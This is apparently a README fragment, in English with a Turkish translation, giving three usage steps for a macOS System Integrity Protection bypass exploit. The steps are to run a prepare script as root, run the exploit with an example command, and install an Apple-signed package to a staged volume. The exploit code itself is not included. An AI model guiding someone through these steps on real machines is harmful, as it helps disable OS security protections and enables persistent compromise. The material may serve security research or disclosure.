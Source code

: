 # Usage
1. Run `prepare.sh` with root privilege
2. Compile and run `exploit` program, e.g. `sudo /path/to/exploit "touch /Library/Apple/sip-bypass"`
3. Install an Apple-signed PKG file to the volume `/tmp/.exploit`, e.g. `sudo installer -pkg /path/to/applesigned.pkg -target /tmp/.exploit`


Kullanım talimatları;
prepare.sh'yi kök ayrıcalığıyla çalıştırın
İstismar programını derleyin ve çalıştırın, örn. sudo /path/to/exploit "touch /Library/Apple/sip-bypass"
Apple imzalı bir PKG dosyasını /tmp/.exploit birimine kurun, örn. sudo yükleyici -pkg /yol/to/applesigned.pkg -target /tmp/.exploit

